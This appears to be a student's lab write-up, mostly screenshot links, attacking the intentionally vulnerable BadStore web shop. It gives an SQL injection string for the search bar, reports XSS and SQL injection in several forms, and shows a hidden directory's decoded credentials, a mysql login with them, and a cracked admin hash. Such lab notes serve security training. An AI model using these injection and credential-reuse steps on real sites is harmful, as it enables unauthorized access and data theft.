 Click `Home` and then enter search bar `1=1'--`

![[Captura desde 2024-09-13 16-52-47.png]]

![[Captura desde 2024-09-13 16-53-36.png]]

Three input field are vulnerable to xss attack

![[Captura desde 2024-09-13 16-54-26.png]]

![[Captura desde 2024-09-13 16-55-53.png]]

my account page vulnerable to sql injection attack

![[Captura desde 2024-09-13 16-56-35.png]]

![[Captura desde 2024-09-13 16-58-22.png]]

login section and register are vulnerable to sql injection attack 

![[Captura desde 2024-09-13 17-00-11.png]]

![[Captura desde 2024-09-13 16-59-33.png]]

![[Captura desde 2024-09-13 17-00-36.png]]

Search bar vulnerable to xss 

![[Captura desde 2024-09-13 17-03-09.png]]

![[Captura desde 2024-09-13 17-03-02.png]]

hidden directory

![[Captura desde 2024-09-13 17-06-23.png]]

![[Captura desde 2024-09-13 17-08-12.png]]

Hidden directory 

`http://0.0.0.0/supplier`

![[Captura desde 2024-09-13 17-08-51.png]]

![[Captura desde 2024-09-13 17-09-01.png]]

all decoded to base64 

```bash
1001:joeuser/password/platnum/192.168.100.56
1002:kroemer/s3Cr3t/gold/10.100.100.1
1003:janeuser/waiting4Friday/172.22.12.19
1004:kbookout/sendmeapo/10.100.100.20
```

![[Captura desde 2024-09-13 18-13-02.png]]

Connecting to database using mysql with credentials

```bash
mysql -u kbookout -p'sendmeapo' -h 192.168.1.100
```

```mysql
show databases;
use badstoredb;
```

![[Captura desde 2024-09-13 18-14-30.png]]

![[Captura desde 2024-09-13 18-14-53.png]]

![[Captura desde 2024-09-13 18-15-15.png]]

hash from admin `5EBE2294ECD0E0F08EAB7690D2A6EE69`

![[Captura desde 2024-09-13 18-20-10.png]]

![[Captura desde 2024-09-13 18-21-24.png]]

hash is `secret`

Username: `admin`
Password: `secret`

![[Captura desde 2024-09-13 18-22-42.png]]

Update account new full name field vulnerable to sql injection attack

![[Captura desde 2024-09-13 18-24-07.png]]